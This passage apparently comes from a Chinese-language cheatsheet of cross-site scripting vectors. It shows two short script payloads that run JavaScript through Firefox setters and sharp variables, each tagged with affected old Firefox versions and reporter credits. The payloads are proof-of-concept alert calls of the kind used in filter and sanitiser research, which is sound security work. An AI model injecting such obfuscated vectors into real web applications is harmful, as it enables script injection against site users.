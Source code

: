 *   opera 15.0
*   opera latest

*   xss
*   css
*   google chrome
*   safari
*   trick
*   notation

*   [#45](#45)
*   [#92](#92)
*   [#111](#111)
*   [#112](#112)

reporter：.mario, LeverOne

## 纯javascript的向量

### 基于Firefox setter执行Javascript[#6](#6)[test](test/#6)

在Gecko/Firefox里可以使用setter间接调用Javascript函数,而不需要括号.


```
<script>({set/**/$($){_/**/setter=$,_=1}}).$=alert</script>
```

*   firefox 1.x
*   firefox 3.6.28

*   xss
*   dom
*   firefox
*   setter
*   proprietary

*   [https://developer.mozilla.org/en/Core_JavaScript_1.5_Guide/Working_with_Objects#Defining_Getters_and_Setters](https://developer.mozilla.org/en/Core_JavaScript_1.5_Guide/Working_with_Objects#Defining_Getters_and_Setters)

reporter：.mario

### 使用sharp variables执行Javascript[#15](#15)[test](test/#15)

这个向量展示了sharp variables和循环引用能用与做混淆和隐式执行代码


```
<script>({0:#0=alert/#0#/#0#(0)})</script>
```

*   firefox 2.x
*   firefox 11.0

*   xss
*   javascript
*   firefox
*   sharp
*   proprietary
